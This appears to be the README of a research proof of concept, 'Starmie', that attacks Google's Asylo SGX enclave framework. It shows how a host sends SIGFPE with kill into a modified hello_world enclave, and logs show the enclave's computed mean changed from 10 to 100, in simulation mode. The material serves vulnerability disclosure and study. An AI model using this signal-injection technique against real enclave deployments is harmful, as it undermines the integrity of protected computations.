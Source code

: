 # Starmie 

Find the detailed report [here](./Starmie_Asylo_Report.pdf).
## Hardware and Software requirements 
Same as asylo to run SGX enclaves.


### POC
We tweak the `hello_world` from [asylo-examples](https://github.com/google/asylo-examples) for our POC in [./asylo-examples/hello_world](./asylo-examples/hello_world/). Specifically, we modify it to register a SIGFPE handler and wait for the signal. 

We use a docker container according to Asylo's recommendation for our POC. 

First, start the container using the following commands:

```
export MY_PROJECT=${PWD}/asylo-examples
docker run -it --rm \
    -v bazel-cache:/root/.cache/bazel \
    -v "${MY_PROJECT}":/opt/my-project \
    -w /opt/my-project \
    gcr.io/asylo-framework/asylo

```

Then, run the application using 
```
bazel run //hello_world:hello_world_sgx_sim -- --names="Jon"

```
This command runs the hello world example that waits for SIGFPE with an output as shown below:
```
Loading hello_world/hello_enclave_sgx_sim.so
2023-11-29 19:32:19  INFO  hello_enclave.cc : 63 : Hello Jon
2023-11-29 19:32:19  INFO  hello_enclave.cc : 65 : Incrementing visitor count...
Waiting...

```

Now, in the host, find the pid of the process with the command starting with `./hello_world/hello_world_host_loader`. 

Then, inject a SIGFPE into the process using the `kill` utility
```
sudo kill -8 <pid>
```

This executes the SIGFPE handler and prints the output below:
```
Loading hello_world/hello_enclave_sgx_sim.so
2023-11-29 19:32:19  INFO  hello_enclave.cc : 63 : Hello Jon
2023-11-29 19:32:19  INFO  hello_enclave.cc : 65 : Incrementing visitor count...
Waiting...
In SIGFPE handler
New mean is : 100
Message from enclave: Hello Jon! You are visitor #1 to this enclave.
```

Without the attack the code would have printed the new mean as 10:
```
Loading hello_world/hello_enclave_sgx_sim.so
2023-11-29 19:32:19  INFO  hello_enclave.cc : 63 : Hello Jon
2023-11-29 19:32:19  INFO  hello_enclave.cc : 65 : Incrementing visitor count...
New mean is : 10
Message from enclave: Hello Jon! You are visitor #1 to this enclave.
```


Note that, we performed our PoC in simulation mode as we were unsucessful in running Asylo with Intel SGX v2. 

